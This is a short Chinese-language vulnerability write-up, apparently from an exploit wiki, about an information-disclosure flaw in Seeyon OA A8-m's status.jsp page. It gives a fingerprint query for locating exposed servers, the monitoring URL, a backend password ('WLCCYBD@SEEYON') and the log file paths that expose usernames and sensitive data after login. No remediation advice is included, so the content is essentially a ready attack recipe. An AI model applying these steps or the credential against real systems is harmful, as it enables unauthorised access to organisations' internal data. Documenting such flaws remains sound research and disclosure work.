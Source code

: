 # 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响 

<a-checkbox checked>致远OA A8-m</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="A8-m"</a-checkbox></br>

## 漏洞复现

访问监控页面

```plain
/seeyon/management/status.jsp
```

![img](../../../.vuepress/public/img/zhiyuan-32.png)



<a-checkbox checked>后台密码为 WLCCYBD@SEEYON</a-checkbox></br>

<a-checkbox checked>登录后通过如下url获得一些敏感信息</a-checkbox></br>

```plain
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![img](../../../.vuepress/public/img/zhiyuan-33.png)



![img](../../../.vuepress/public/img/zhiyuan-34.png)



![img](../../../.vuepress/public/img/zhiyuan-35.png)